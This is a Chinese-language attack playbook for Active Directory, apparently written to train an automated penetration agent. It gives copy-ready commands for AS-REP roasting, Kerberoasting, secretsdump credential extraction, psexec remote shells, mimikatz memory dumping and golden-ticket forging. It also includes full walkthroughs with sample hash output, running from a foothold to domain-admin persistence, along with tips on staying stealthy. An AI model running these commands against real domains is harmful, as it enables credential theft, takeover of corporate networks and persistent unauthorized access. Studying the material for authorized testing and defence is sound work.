

# Active Directory 攻击状态机 (Active Directory Attack State Machine)

## 状态机概述

Active Directory (AD) 是 Windows 域环境的核心，也是企业网络渗透的主要目标。掌握 AD 攻击链是内网渗透的关键。

## 原子工具状态映射 (Atomic Tool-State Mapping)

### 1. bloodhound-python - AD 关系图谱收集

**触发状态 (Trigger)**：
- 输入：发现域环境（88/389/636 端口）
- 前置条件：有域用户凭据

**核心命令人话版**：
```bash
# 收集所有数据
bloodhound-python -d domain.local -u username -p password -ns <DC_IP> -c all

# 指定收集类型
bloodhound-python -d domain.local -u username -p password -ns <DC_IP> -c DCOnly

# 使用哈希认证
bloodhound-python -d domain.local -u username --hashes :NTLM_hash -ns <DC_IP> -c all
```

**状态转移 (State Transition)**：
- **如果收集成功** → 导入 BloodHound GUI 分析
  - 发现域管理员路径 → 规划攻击路径
  - 发现 Kerberoastable 用户 → Kerberoasting 攻击
  - 发现 AS-REP Roastable 用户 → AS-REP Roasting 攻击
  - 发现委派配置 → 委派攻击
- **如果收集失败** → 检查凭据或网络连接

---

### 2. impacket-GetNPUsers - AS-REP Roasting

**触发状态 (Trigger)**：
- 输入：发现不需要预认证的用户
- 前置条件：知道用户名或可以枚举用户

**核心命令人话版**：
```bash
# 枚举所有不需要预认证的用户
impacket-GetNPUsers domain.local/ -dc-ip <DC_IP> -request

# 指定用户列表
impacket-GetNPUsers domain.local/ -usersfile users.txt -dc-ip <DC_IP>

# 输出到文件供 hashcat 破解
impacket-GetNPUsers domain.local/ -dc-ip <DC_IP> -request -outputfile hashes.txt
```

**状态转移 (State Transition)**：
- **如果获取到哈希** → 转移到：hashcat 破解
- **如果破解成功** → 获得域用户凭据，转移到：横向移动
- **如果无可用用户** → 转移到：其他攻击方式

---

### 3. impacket-GetUserSPNs - Kerberoasting

**触发状态 (Trigger)**：
- 输入：有域用户凭据
- 前置条件：域中存在 SPN（Service Principal Name）

**核心命令人话版**：
```bash
# 请求所有 SPN 的 TGS 票据
impacket-GetUserSPNs domain.local/username:password -dc-ip <DC_IP> -request

# 输出到文件供 hashcat 破解
impacket-GetUserSPNs domain.local/username:password -dc-ip <DC_IP> -request -outputfile hashes.txt

# 使用哈希认证
impacket-GetUserSPNs domain.local/username -hashes :NTLM_hash -dc-ip <DC_IP> -request
```

**状态转移 (State Transition)**：
- **如果获取到 TGS 票据** → 转移到：hashcat 破解
- **如果破解成功** → 可能获得高权限账户，转移到：权限提升
- **如果无 SPN** → 转移到：其他攻击方式

---

### 4. impacket-secretsdump - 凭据提取

**触发状态 (Trigger)**：
- 输入：有域管理员凭据或本地管理员凭据
- 前置条件：目标是域控制器或域成员

**核心命令人话版**：
```bash
# 从域控制器提取所有凭据
impacket-secretsdump domain.local/admin:password@<DC_IP>

# 使用哈希认证
impacket-secretsdump domain.local/admin@<DC_IP> -hashes :NTLM_hash

# 从本地 SAM 提取
impacket-secretsdump -sam sam.save -system system.save LOCAL

# 提取 NTDS.dit（域数据库）
impacket-secretsdump domain.local/admin:password@<DC_IP> -just-dc
```

**状态转移 (State Transition)**：
- **如果提取成功** → 获得所有域用户哈希
  - 破解哈希 → 获得明文密码
  - 使用哈希 → Pass-the-Hash 攻击
  - 提取 Kerberos 密钥 → 黄金票据攻击
- **如果提取失败** → 检查权限或尝试其他方法

---

### 5. impacket-psexec / wmiexec / smbexec - 远程命令执行

**触发状态 (Trigger)**：
- 输入：有域管理员凭据或本地管理员凭据
- 前置条件：目标开启相应服务

**核心命令人话版**：
```bash
# PSExec（通过 SMB）
impacket-psexec domain.local/admin:password@<target>

# WMIExec（通过 WMI）
impacket-wmiexec domain.local/admin:password@<target>

# SMBExec（通过 SMB，无服务）
impacket-smbexec domain.local/admin:password@<target>

# 使用哈希
impacket-psexec domain.local/admin@<target> -hashes :NTLM_hash
```

**状态转移 (State Transition)**：
- **如果连接成功** → 获得 shell，转移到：
  - 凭据提取
  - 横向移动
  - 持久化
- **如果连接失败** → 尝试其他方法或目标

---

### 6. impacket-getTGT - 获取 TGT 票据

**触发状态 (Trigger)**：
- 输入：有域用户凭据或哈希
- 前置条件：需要 Kerberos 票据

**核心命令人话版**：
```bash
# 使用密码获取 TGT
impacket-getTGT domain.local/username:password

# 使用哈希获取 TGT
impacket-getTGT domain.local/username -hashes :NTLM_hash

# 使用 AES 密钥
impacket-getTGT domain.local/username -aesKey <AES_key>
```

**状态转移 (State Transition)**：
- **如果获取成功** → 导出为 .ccache 文件
  - 设置 KRB5CCNAME 环境变量
  - 使用票据进行认证
- **如果获取失败** → 检查凭据或网络

---

### 7. impacket-ticketer - 黄金/白银票据伪造

**触发状态 (Trigger)**：
- 输入：有 krbtgt 哈希（黄金票据）或服务账户哈希（白银票据）
- 前置条件：已提取域凭据

**核心命令人话版**：
```bash
# 黄金票据（需要 krbtgt 哈希）
impacket-ticketer -nthash <krbtgt_hash> -domain-sid <domain_SID> -domain domain.local administrator

# 白银票据（需要服务账户哈希）
impacket-ticketer -nthash <service_hash> -domain-sid <domain_SID> -domain domain.local -spn cifs/dc.domain.local administrator
```

**状态转移 (State Transition)**：
- **如果伪造成功** → 导出票据
  - 使用票据访问任何资源
  - 持久化访问
- **如果伪造失败** → 检查哈希和 SID

---

### 8. netexec (crackmapexec) - 域批量操作

**触发状态 (Trigger)**：
- 输入：有域凭据，需要批量操作
- 前置条件：多个目标或需要快速枚举

**核心命令人话版**：
```bash
# 批量测试凭据
netexec smb <targets> -u username -p password

# 枚举域用户
netexec smb <DC_IP> -u username -p password --users

# 枚举域组
netexec smb <DC_IP> -u username -p password --groups

# 枚举域管理员
netexec smb <DC_IP> -u username -p password --groups "Domain Admins"

# 批量执行命令
netexec smb <targets> -u username -p password -x whoami

# 批量提取 SAM
netexec smb <targets> -u username -p password --sam
```

**状态转移 (State Transition)**：
- **如果枚举成功** → 获得域信息
  - 发现域管理员 → 定位目标
  - 发现共享 → 查找敏感文件
- **如果执行成功** → 批量横向移动

---

## 聚类攻击状态机 (Clustered Attack State Machine)

### Active Directory 攻击完整流程（If-Then-Else 逻辑）

```
[起点：发现域环境]
    ↓
[步骤 1：初始枚举]
    IF 无凭据:
        尝试 AS-REP Roasting (impacket-GetNPUsers)
        IF 获取哈希:
            破解哈希 → 获得凭据
        ELSE:
            尝试 LLMNR/NBT-NS 投毒 (responder)
            尝试 SMB Relay
    ELSE IF 有低权限凭据:
        继续步骤 2
    ↓
[步骤 2：域信息收集（有凭据）]
    使用 bloodhound-python 收集域信息
    使用 netexec 枚举域用户和组

    分析 BloodHound 数据:
    IF 发现到域管理员的路径:
        规划攻击路径 → 执行
    IF 发现 Kerberoastable 用户:
        执行 Kerberoasting → 步骤 3
    IF 发现委派配置:
        执行委派攻击
    ↓
[步骤 3：权限提升]
    Kerberoasting:
        impacket-GetUserSPNs 获取 TGS
        hashcat 破解
        IF 破解成功:
            获得高权限账户 → 步骤 4

    OR 利用其他漏洞:
        ZeroLogon
        PrintNightmare
        PetitPotam
    ↓
[步骤 4：域管理员权限]
    IF 有域管理员凭据:
        连接域控制器
        impacket-secretsdump 提取所有凭据
        IF 提取成功:
            获得 krbtgt 哈希 → 步骤 5
            获得所有用户哈希 → 横向移动
    ELSE:
        继续寻找提权路径
    ↓
[步骤 5：持久化]
    黄金票据:
        impacket-ticketer 伪造票据
        持久化域管理员访问

    白银票据:
        针对特定服务伪造票据

    其他持久化:
        创建域管理员账户
        修改 GPO
        植入后门
```

---

## 场景决策链路 (Scenario Decision Path)

### 场景 1：从零到域管理员

**场景还原**：
```
已获得：内网立足点（普通域用户权限）
目标：获取域管理员权限
域：CORP.LOCAL
域控：DC01.CORP.LOCAL (192.168.10.10)
```

**状态机运行路径**：

1. **第一步：BloodHound 数据收集**
   ```bash
   bloodhound-python -d CORP.LOCAL -u john -p 'Password123' -ns 192.168.10.10 -c all
   ```
   **输出**：生成 JSON 文件

2. **状态机判定**：导入 BloodHound 分析
   - 发现：john → IT-Admins 组 → 本地管理员（SERVER01）
   - 发现：SERVER01 上有域管理员登录会话
   - 攻击路径：john → SERVER01 → 提取域管理员凭据

3. **第二步：横向移动到 SERVER01**
   ```bash
   netexec smb 192.168.10.20 -u john -p 'Password123'
   ```
   **输出**：
   ```
   SMB  192.168.10.20  445  SERVER01  [+] CORP.LOCAL\john:Password123 (Pwn3d!)
   ```

4. **状态机判定**：john 是 SERVER01 的本地管理员
   - 转移到：获取 shell

5. **第三步：获取 shell 并提取凭据**
   ```bash
   impacket-psexec CORP.LOCAL/john:'Password123'@192.168.10.20
   ```
   在 shell 中：
   ```bash
   # 提取内存中的凭据（需要上传 mimikatz）
   mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
   ```
   **输出**：
   ```
   Username : Administrator
   Domain   : CORP
   NTLM     : aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
   ```

6. **状态机判定**：获得域管理员哈希
   - 转移到：域控制器访问

7. **第四步：访问域控制器**
   ```bash
   impacket-psexec CORP.LOCAL/Administrator@192.168.10.10 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
   ```
   **输出**：获得域控制器 SYSTEM shell

8. **状态机判定**：获得域控制器完全控制权
   - 转移到：凭据提取和持久化

9. **第五步：提取所有域凭据**
   ```bash
   impacket-secretsdump CORP.LOCAL/Administrator@192.168.10.10 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc
   ```
   **输出**：
   ```
   [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
   Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e2b475c11da2a0748290d87aa966c327:::
   ...
   ```

10. **状态机判定**：获得 krbtgt 哈希
    - 转移到：黄金票据伪造

11. **第六步：伪造黄金票据**
    ```bash
    impacket-ticketer -nthash e2b475c11da2a0748290d87aa966c327 -domain-sid S-1-5-21-xxx -domain CORP.LOCAL administrator
    ```
    **输出**：生成 administrator.ccache

12. **状态机判定**：持久化完成
    - 可以随时使用黄金票据访问任何资源

**内化点 (Internalization)**：
- **为什么使用 BloodHound？**
  - 可视化域关系，快速找到攻击路径
  - 避免盲目尝试，节省时间
  - 发现隐藏的权限关系

- **为什么不直接攻击域控？**
  - 域控通常防护严密
  - 通过跳板机更隐蔽
  - 利用信任关系更容易成功

- **为什么伪造黄金票据？**
  - 持久化访问，即使密码更改也有效
  - 可以伪造任何用户
  - 有效期长（默认 10 年）

---

### 场景 2：Kerberoasting 攻击

**场景还原**：
```
已获得：域用户凭据（john:Password123）
目标：获取高权限账户
```

**状态机运行路径**：

1. **第一步：枚举 SPN**
   ```bash
   impacket-GetUserSPNs CORP.LOCAL/john:'Password123' -dc-ip 192.168.10.10
   ```
   **输出**：
   ```
   ServicePrincipalName          Name        MemberOf
   ----------------------------  ----------  --------
   MSSQLSvc/SQL01.CORP.LOCAL     sqlservice  CN=IT-Admins,CN=Users,DC=CORP,DC=LOCAL
   ```

2. **状态机判定**：发现 sqlservice 账户有 SPN
   - 转移到：请求 TGS 票据

3. **第二步：请求 TGS 票据**
   ```bash
   impacket-GetUserSPNs CORP.LOCAL/john:'Password123' -dc-ip 192.168.10.10 -request -outputfile hashes.txt
   ```
   **输出**：
   ```
   $krb5tgs$23$*sqlservice$CORP.LOCAL$MSSQLSvc/SQL01.CORP.LOCAL*$...
   ```

4. **状态机判定**：获得 TGS 票据（加密的）
   - 转移到：离线破解

5. **第三步：hashcat 破解**
   ```bash
   hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
   ```
   **输出**：
   ```
   $krb5tgs$23$*sqlservice$...:SQLPass123!
   ```

6. **状态机判定**：破解成功，获得 sqlservice 密码
   - sqlservice 是 IT-Admins 组成员
   - 转移到：横向移动

**内化点 (Internalization)**：
- **为什么 Kerberoasting 有效？**
  - TGS 票据使用服务账户密码加密
  - 可以离线破解，不触发账户锁定
  - 服务账户密码通常较弱且很少更改

- **为什么选择 hashcat？**
  - GPU 加速，速度快
  - 支持多种哈希类型
  - 规则引擎强大

---

### 场景 3：AS-REP Roasting（无凭据）

**场景还原**：
```
已获得：无凭据
发现：域环境 CORP.LOCAL
目标：获取初始凭据
```

**状态机运行路径**：

1. **第一步：枚举不需要预认证的用户**
   ```bash
   impacket-GetNPUsers CORP.LOCAL/ -dc-ip 192.168.10.10 -request
   ```
   **输出**：
   ```
   $krb5asrep$23$testuser@CORP.LOCAL:...
   ```

2. **状态机判定**：发现 testuser 不需要预认证
   - 转移到：离线破解

3. **第二步：hashcat 破解**
   ```bash
   hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt
   ```
   **输出**：
   ```
   $krb5asrep$23$testuser@CORP.LOCAL:...:Test123!
   ```

4. **状态机判定**：获得域用户凭据
   - 转移到：域信息收集

**内化点 (Internalization)**：
- **为什么 AS-REP Roasting 不需要凭据？**
  - 利用 Kerberos 预认证禁用的配置错误
  - 可以请求任何用户的 AS-REP
  - 完全被动，不触发告警

- **什么时候使用 AS-REP Roasting？**
  - 无任何凭据时的首选
  - 配合用户名枚举使用
  - 通常能找到 1-2 个可用账户

---

## 思维判定流程图 (Decision Flowchart)



---

## 工具选择决策表

| 场景 | 首选工具 | 备选工具 | 原因 |
|------|---------|---------|------|
| 域信息收集 | bloodhound-python | PowerView | 可视化，易分析 |
| AS-REP Roasting | impacket-GetNPUsers | Rubeus | 跨平台，易用 |
| Kerberoasting | impacket-GetUserSPNs | Rubeus | 跨平台，易用 |
| 凭据提取 | impacket-secretsdump | mimikatz | 远程提取，更安全 |
| 远程执行 | impacket-psexec | wmiexec | 稳定性好 |
| 批量操作 | netexec | PowerView | 速度快，功能全 |
| 票据伪造 | impacket-ticketer | mimikatz | 跨平台 |

---

## 常见陷阱与绕过

### 1. BloodHound 收集失败
**问题**：网络限制或权限不足
**解决**：
- 使用 -c DCOnly（只收集 DC 数据）
- 分段收集（-c Session,Group,LocalAdmin）
- 使用 SharpHound（Windows 版）

### 2. Kerberoasting 无结果
**问题**：无 SPN 或 SPN 账户密码强
**解决**：
- 检查是否有服务账户
- 尝试 AS-REP Roasting
- 寻找其他攻击路径

### 3. 域控访问被拒绝
**问题**：凭据无效或权限不足
**解决**：
- 验证凭据有效性
- 检查是否是域管理员
- 尝试其他域控制器

---

## 下一步状态机

完成 AD 攻击后，根据结果转移到：
1. **权限提升状态机**（如果获得低权限 shell）
2. **横向移动状态机**（如果需要访问其他系统）
3. **持久化状态机**（如果需要长期访问）
4. **数据渗出状态机**（如果需要提取数据）

---

*文档生成时间：2026-03-22*
*状态机类型：Active Directory 攻击*
